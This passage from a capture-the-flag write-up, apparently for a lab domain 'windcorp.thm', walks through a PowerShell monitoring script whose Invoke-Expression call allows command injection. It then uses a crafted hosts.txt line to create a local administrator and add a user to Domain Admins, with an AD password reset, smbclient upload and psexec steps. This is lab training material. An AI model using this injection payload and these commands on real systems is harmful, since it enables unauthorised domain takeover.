     # If the host is unavailable, give a warning to screen
     write-host "Unavailable host ------------> "$_ -BackgroundColor Magenta -ForegroundColor White
     $p = Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue
     if(!($p))
       {
        # If the host is still unavailable for 4 full pings, write error and send email
        write-host "Unavailable host ------------> "$_ -BackgroundColor Red -ForegroundColor White
        [Array]$notavailable += $_

        if ($OutageHosts -ne $Null)
            {
                if (!$OutageHosts.ContainsKey($_))
                {
                 # First time down add to the list and send email
                 Write-Host "$_ Is not in the OutageHosts list, first time down"
                 $OutageHosts.Add($_,(get-date))
                 $Now = Get-date
                 $Body = "$_ has not responded for 5 pings at $Now"
                 Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
                  -Subject "Host $_ is down" -SmtpServer $smtpserver
                }
                else
                {
                    # If the host is in the list do nothing for 1 hour and then remove from the list.
                    Write-Host "$_ Is in the OutageHosts list"
                    if (((Get-Date) - $OutageHosts.Item($_)).TotalMinutes -gt $EmailTimeOut)
                    {$OutageHosts.Remove($_)}
                }
            }
        else
            {
                # First time down create the list and send email
                Write-Host "Adding $_ to OutageHosts."
                $OutageHosts = @{$_=(get-date)}
                $Body = "$_ has not responded for 5 pings at $Now"
                Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
                 -Subject "Host $_ is down" -SmtpServer $smtpserver
            }
       }
    }
}
# Report to screen the details
$log = "Last run: $(Get-Date)"
write-host $log
Set-Content -Path C:\scripts\log.txt -Value $log
Write-Host "Available count:"$available.count
Write-Host "Not available count:"$notavailable.count
Write-Host "Not available hosts:"
$OutageHosts
Write-Host ""
Write-Host "Sleeping $SleepTimeOut seconds"
sleep $SleepTimeOut
if ($OutageHosts.Count -gt $MaxOutageCount)
{
    # If there are more than a certain number of host down in an hour abort the script.
    $Exit = $True
    $body = $OutageHosts | Out-String
    Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
     -Subject "More than $MaxOutageCount Hosts down, monitoring aborted" -SmtpServer $smtpServer
}
}
while ($Exit -ne $True)

```


reading this comment:

```powershell
# Read the File with the Hosts every cycle, this way to can add/remove hosts
# from the list without touching the script/scheduled task,
```

There would appear to be a scheduled task that runs this script but unfortunately we cannot list scheduled tasks:

<figure><figcaption></figcaption></figure>

The code is interesting because right in the first few lines it can be exploited because of the presence of the Invoke-Expression:

```powershell
get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |
ForEach-Object {
    $p = "Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue"
    Invoke-Expression $p
```

If we could control the variable $p, we could perform a command injection and get a shell with the privileges of the person who is executing the task.

The variable `$p` is populated using the powershell built-in variable `$_`, which in turn is populated with the contents of the internal `hosts.txt` file. Assuming that this file contains lines with the IP addresses of the machines to be verified and lines containing a `#` character to add comments, lines containing a `#` are excluded with the `Where-Object`. Below is an example of what the `hosts.txt` file may look like and what the script commands do:

<figure><figcaption></figcaption></figure>

## Privilege Escalation (Domain Admin/Administrator)

So now let's change the domain password of user `brittanycr` and modify the hosts.txt file in order to get a reverse shell impersonating service principal running the scheduled task.


```powershell
Set-ADAccountPassword -Identity "brittanycr" -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password1234!" -Force)
```


<figure><figcaption></figcaption></figure>

Try to login using evil-winrm:

```bash
evil-winrm -i fire.windcorp.thm -u brittanycr -p Password1234!
```

But unfortunately this user doesn't have permissions to WinRM on Domain Controller:

<figure><figcaption></figcaption></figure>

neither using RDP.

So we have to create a `hosts.txt` file on Kali and then upload it via `smbclient`. I saved the below in `hosts.txt` :

<figure><figcaption></figcaption></figure>


```powershell
;net user evil hello!123 /add;net localgroup Administrators evil /add; Add-ADGroupMember -Identity 'Domain Admins' -Members 'buse';
```


In this way the variable `$p` will be:


```powershell
$p = "Test-Connection -ComputerName ;net user evil hello!123 /add;net localgroup Administrators evil /add; Add-ADGroupMember -Identity 'Domain Admins' -Members 'buse';
```


Now upload the file:

```bash
 smbclient //fire.windcorp.thm/Users -U 'brittanycr%Password1234!'
```

This is the original `hosts.txt` file:

<figure><figcaption></figcaption></figure>

Upload the new file:

```bash
put hosts.txt
```

After a few minutes we become Domain Admins and a new user `evil` is created:


```powershell
Get-ADGroupMember -Identity "Domain Admins" | Select-Object -ExpandProperty SamAccountName
```


<figure><figcaption></figcaption></figure>

Now we can  RDP as `buse` and `psexec` as `evil` user (local Administrator) in order to dump the Flag3:

<figure><figcaption></figcaption></figure>

```bash
psexec.py evil@fire.windcorp.thm
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
